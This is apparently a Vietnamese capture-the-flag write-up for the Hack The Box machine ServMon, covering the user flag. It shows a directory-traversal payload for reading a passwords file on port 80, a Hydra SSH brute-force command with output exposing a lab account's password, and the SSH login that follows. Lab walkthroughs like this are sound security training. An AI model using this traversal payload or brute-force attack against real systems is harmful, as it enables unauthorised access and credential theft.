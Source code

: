 ```
Shellcodes: No Results
```

# User flag
## Exploit
### Burp suite
Từ việc ghi chú về vị trí của Password và lỗ hổng có thể khai thác được từ port 80 ta có payload gửi đi 
```
/../../../../../../c:/users/nathan/desktop/passwords.txt
```
![image](https://hackmd.io/_uploads/r1drDygqC.png)

Có lẽ vị trí của nó đã nằm sẵn ở ổ `C:` nên sửa lại payload ta mới nhận được file password

![image](https://hackmd.io/_uploads/B13i9ye9R.png)

### Hydra 
Vì SSH đang chạy với Windows nên ta sẽ brute-force tài khoản và mật khẩu bằng Hydra

Tạo file `user.txt` thêm administrator nếu may mắn có và file `password.txt` lấy được từ trên
```
┌──(kali㉿kali)-[~]
└─$ hydra -L usr.txt -P pass.txt 10.10.10.184 ssh                               
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-06 14:33:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 21 login tries (l:3/p:7), ~2 tries per task
[DATA] attacking ssh://10.10.10.184:22/
[22][ssh] host: 10.10.10.184   login: nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-06 14:33:21
```

Ta lấy được password của `Nadine` là **L1k3B1gBut7s@W0rk**

## Post-Exploit
Sau khi login ssh ta nhận được tài khoản `Nadine` với quyền `user` 
```
┌──(kali㉿kali)-[~]
└─$ ssh nadine@10.10.10.184             
The authenticity of host '10.10.10.184 (10.10.10.184)' can't be established.
ED25519 key fingerprint is SHA256:WctzSeuXs6dqa7LqHkfVZ38Pppc/KRlSmEvNtPlwSoQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.184' (ED25519) to the list of known hosts.
nadine@10.10.10.184's password: 



Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine
```
Truy cập vào `C:\Users\nadine\Desktop` để lấy flag